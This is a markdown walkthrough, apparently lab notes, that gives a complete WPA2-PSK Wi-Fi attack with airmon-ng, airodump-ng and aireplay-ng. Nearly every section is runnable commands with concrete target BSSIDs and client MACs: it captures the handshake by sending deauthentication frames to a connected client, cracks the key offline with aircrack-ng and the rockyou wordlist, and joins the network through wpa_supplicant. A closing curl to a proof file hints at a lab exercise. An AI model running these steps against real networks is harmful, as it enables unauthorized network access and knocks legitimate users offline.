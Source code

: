 # 🛡️ WPA2-PSK Attack
## Time to perform the attack: 7 minutes

## ⚙️ Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Monitor mode enabled on `wlan0mon`.

---

## 🔍 Scan for Targets

Since WPA2 works both on 2,4Ghz and 5Ghz, check what access points (APs) are active on those frequencies.

**To recognize them check for WPA2-PSK and Cipher CCMP**

```bash
sudo airodump-ng  --band abg wlan0mon
```

From here, identify
- BSSID
- Channel
- ESSID
- Clients

Use TAB and M key to highlight the each APs in order to check also associated clients. 

Ideally we want to attack some AP that has already clients connected to it.

Finally, check the channel where the AP is working and run again to get a cleaner output 

```bash
channel=6
sudo airodump-ng -c ${channel} wlan0mon
```

---

## 🎯 Capture Handshake

It's time to Capture the Handshake and for this we'll capture an **authentication handshake**.

**NOTE:** **WPA2 doesn’t reuse IVs as WEP does**. It uses a secure 4-way handshake to derive session keys.

The attack focuses on capturing this handshake, which occurs only when a client **connects** to the network.

The handshake contains hashed information that can be brute-forced **offline** if the password is weak.

So, we send deauthentication frames to a connected client. The client is forced to disconnect and reconnect. The handshake is captured. BOOM!

📌 It's important to understand that deauth doesn’t flood traffic; it simply forces a re-authentication to trigger the handshake.

Let's do it:

```bash
mkdir WPA2
cd WPA2
channel=6
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo airodump-ng -c ${channel}  -w ${dumpfile} --output-format pcap,csv --essid ${essid} --bssid ${bssid} wlan0mon
```
Keep this running! **You're sniffing for the WPA handshake**.

---

## 💣 Force Handshake with Deauth

In a second terminal tab.
Send a deauthentication frame to the choosen client.
In this case it will try to re-authenticate again during our capture.

```bash
bssid='F0:9F:C2:71:22:12'
client='28:6C:07:6F:F9:43'
essid='wifi-mobile'

sudo aireplay-ng -0 1 -e ${essid} -a ${bssid} -c ${client}  wlan0mon
```
This forces the client to disconnect and reconnect, generating the handshake.
At this point come back to terminal 1 and check if a WPA handshake is captured.

---

## 👁️ Confirm Handshake

In the top-right corner of `airodump-ng`output, look for:

```bash
WPA handshake: <BSSID>
```

If you get it, press CTRL+C to stop airodump. 
Also, stop monitoring on wlan0mon:

```bash
sudo airmon-ng stop wlan0mon
```
---

## 🔓 Crack the Password

```bash
wordlist='rockyou.txt'
dumpfile='dump-wpa'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

aircrack-ng -w ${wordlist} -e ${essid} -b ${bssid} ${dumpfile}-01.cap
```

**Substitute `john wordlist` with rockyou.txt if needed.**

---

## 🔌 Connect Using wpa_supplicant

### wpa2.conf

Let's create a network configuration file.

```bash
wpa_key='starwars1'
bssid='F0:9F:C2:71:22:12'
essid='wifi-mobile'

cat << EOF > /tmp/wpa.conf
  network={
         ssid="${essid}"
         key_mgmt=WPA-PSK
         psk="${wpa_key}"
         priority=100
         bssid=${bssid}
        }
EOF
```
We'll use this network configuration file with the tool ‘wpa_suppliant’ and connect to the target WPA2 network.

### Launch connection

In one terminal:
```bash
sudo wpa_supplicant -i wlan0 -c /tmp/wpa.conf
```

In another terminal:
```bash
sudo dhclient wlan0 -v
```
---

## ✅ Confirm Network Access

```bash
target=192.168.1.1
curl http://${target}/proof.txt
```

Look for an assigned `inet` IP like:

```
inet 192.168.2.48/24 brd 192.168.2.255 scope global dynamic wlan0
```

You're inside the network.

---

Next up: PMKID attacks! 
